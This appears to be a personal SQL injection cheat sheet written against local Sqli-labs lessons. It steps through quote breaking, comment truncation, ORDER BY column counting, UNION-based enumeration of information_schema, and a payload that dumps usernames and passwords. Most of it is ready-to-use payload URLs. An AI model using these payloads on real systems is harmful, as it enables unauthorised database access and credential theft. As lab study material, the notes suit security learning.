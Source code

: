 SQLi
====


---------------
	Normal:      
	Attack:        
	

Basics
---------------
	Normal:     php?id='1'
	Attack:       php?id='1''


Commenting Remaining part of the quries
---------------
	Normal:     php?id='1' limit 1
	Attack:       php?id='1''-- this portion will be commented
	Attack:       php?id='1''# this portion will be commented


Getting Number of Columns by ORDER BY
----------------------------------------------

	in order by if left<=Right it show no error. and we can use this to find the number of columns used in the query
		Normal:      php?id='1' 
	         Attack:       php?id='1'' order by 1 --+		No Error
	         Attack:       php?id='1'' order by 2 --+		No Error
	         Attack:       php?id='1'' order by 3 --+ 		No Error
	         Attack:       php?id='1'' order by 4 --+		Error
			
			Then the number of columns used in the query is 3
	Ex:

	SELECT username,passwd FROM users where user_id=1 order by 1	---	will show no error
	SELECT username,passwd FROM users where user_id=1 order by 2	---	will show no error
	SELECT username,passwd FROM users where user_id=1 order by 3	---	will show error







Enumeration table name from information_schema database
----------------
	information schema is an database which cotains the infoamtion about other databases.
	
	Syntax : http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,2,3 --+
		     http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,WhatINeed,3 From_information_schema --+

	Attack: http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,table_name,3 from information_schema.tables where table_schema=database() --+
	Attack: http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,table_name,3 from information_schema.tables where table_schema='users' --+



Finding all the tables using Limit
------------------------------------

	By Default we can only get one table name at one time because the limit is set to [ limit 0,1] 
	which means start from zero and get me the one record we can input [ limit 1,1 ] start from 
	1 and get me one record and move on to [ limit 2,1]
		
	
	http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1 --+		---	1st table

	http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1 --+		---	2nd table
	http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1 --+		---	3rd table


Finding all tables using group_concat()
-------------------------
	
	
	http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+			---	Will return all the tables in the database.




Getting Tables:
---------------

	http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+		---	Will show all the columns in the table users.

	


Dumping Data
---------------
	http://localhost/master/Less-1/index.php?id=-1' UNION ALL select 1,group_concat(username),group_concat(password) from users --+




Quote less injection
----------------------

	PHP: $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";				---	quote in necessory to breake the quote.
	Attack: http://127.0.0.1/master/Less-2/index.php?id=1' order by 1--+


	PHP: PHP: $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1"; 			--- No quotes are necessort to breake the quotes.	

	Attack: http://127.0.0.1/master/Less-2/index.php?id=1 order by 1--+




Breake the quote
--------------------

PHP: $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";




Ticks
====

Find the Query to break using \
-------------------------
	http://127.0.0.1/master/Less-3/index.php?id=1\
	will show you error like [ MySQL server version for the right syntax to use near ''1\')  ] which means we have to escape 
